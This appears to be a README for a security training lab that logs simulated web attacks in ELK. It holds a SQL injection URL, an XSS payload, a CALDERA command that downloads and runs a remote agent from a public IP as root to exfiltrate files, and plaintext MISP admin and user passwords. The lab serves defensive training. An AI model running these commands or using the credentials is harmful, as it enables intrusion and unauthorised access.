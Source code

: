 
# Attack Anatomy

After Installing ELK & fluentd
  We should generate some log in the following files : <br>
     - /var/log/httpd/access_log<br>
	   - /var/log/httpd/error_log<br>
	   - /var/log/httpd/modsec_audit.log

By Testing web application attack using the following link:<br>
#### Begin attack Simulation
SQL injection<br>
http://127.0.0.1/Vulnerable-Web-Application-master/SQL/sql1.php?category=Gifts%27+OR+1=1--

XSS<br>
http://127.0.0.1/Vulnerable-Web-Application-master/XSS/XSS_level1.php
<script>alert(123)</script>

* Let move to elacticSearch 
  #### go to  Stack Management > Index Management 
   
   you should fine the following Index
   <img src="images/elk_index.JPG">
   
   #### Creat Index pattern  Stack Management > Index patterns
   <img src="images/create_index1.JPG">
   
   Name : apache_error_log_result*
   Timestamp field : @timestamp
    <img src="images/create_index2.JPG">
    
  * Now go to Discover, you should have date visualisation like this
  <img src="images/elk_data.JPG">


[6c1d8c4afbc7f85f05fb2e4d17e5553255b0195a0b56ba5309e362e2156debfc]


 
## CALDERA
http://66.117.8.162:8888/<br>


  ```sh
server="http://66.117.8.162:8888";
curl -s -X POST -H "file:sandcat.go" -H "platform:linux" $server/file/download > splunkd1;
chmod +x splunkd1;
./splunkd1 -server $server -group red1 -v
  ```

As root user<br>

Change N by your Id on "splunkdN"<br>
Change N by your Id on "redN"<br>
run the following command : <br>

  ```sh
server="http://66.117.8.162:8888";
curl -s -X POST -H "file:sandcat.go" -H "platform:linux" $server/file/download > splunkdN;
chmod +x splunkdN;
./splunkdN -server $server -group redN -v
  ```
  
Verified agent status<br>
Define Adversaries profile : Thief<br>
Expand operation<br>

Go to Exfilled Files, and download your exfiltered data<br>



## MISP
http://66.117.8.162:8080/users/admin_index<br>
admin				kVYoghBmxQOH4o4HnQmcsBZiA<br>
admin@admin.test		6_EusicnWdL3zHvl0Qm5IhRjS<br>
user1@testmips.com		Mssjo20s@sjs+qs51<br>
user2@testmips.com		Mssjo20s@sjs+qs521<br>
user3@testmips.com		Mssjo20s@sjs+qs53<br>
user4@testmips.com		Mssjo20s@sjs+qs54<br>
user5@testmips.com		Mssjo20s@sjs+qs55<br>
user6@testmips.com		Mssjo20s@sjs+qs56<br>
user7@testmips.com		Mssjo20s@sjs+qs57<br>
user8@testmips.com		Mssjo20s@sjs+qs58<br>
user9@testmips.com		Mssjo20s@sjs+qs59<br>
user10@testmips.com		Mssjo20s@sjs+qs10<br>




https://github.com/kbandla/APTnotes<br>
https://github.com/center-for-threat-informed-defense/adversary_emulation_library<br>
https://github.com/center-for-threat-informed-defense/adversary_emulation_library/blob/master/apt29/Intelligence_Summary.md<br>
https://center-for-threat-informed-defense.github.io/attack-flow/example_flows/<br>
https://docs.google.com/spreadsheets/u/1/d/1H9_xaxQHpWaa4O_Son4Gx0YOIzlcBWMsdvePFX68EKU/pubhtml?pli=1#<br>
https://github.com/mxm0z?tab=repositories<br>
https://github.com/mxm0z/awesome-threat-detection#trainings<br>
https://github.com/microsoft/msticpy<br>


https://mitre-attack.github.io/attack-navigator/<br>



 

